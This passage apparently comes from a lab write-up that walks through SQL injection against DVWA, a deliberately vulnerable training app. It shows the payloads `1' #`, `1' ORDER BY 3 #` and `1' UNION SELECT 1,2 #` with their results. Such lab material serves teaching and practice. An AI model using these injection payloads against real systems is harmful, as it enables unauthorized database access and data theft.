 # 2. Identify injection vector (bypass authentication)

The error was `''1'''` when using `1'` as input → guessing that backend SQL query should be using single quotes on the id: `'$id'`

Test: close the enquiry with a single `'` and drop everything behind using `#`

Input: `1' #`

Output:

![image](images/sqli-dvwa-2.png)

Injection vector found!

# 3. Identify range

Try to find the number of columns retrieved by the query to match the `UNION SELECT` injection later

(It should be quite obvious that the range is 2, since the output only have 2 items)

Input: `1' ORDER BY 3 #`

Output: `Unknown column '3' in 'order clause'`

This means there is no third column in the query, i.e. range is 2

# 4. Identify data display positions

Input: `1' UNION SELECT 1,2 #`

Output:

![image](images/sqli-dvwa-3.png)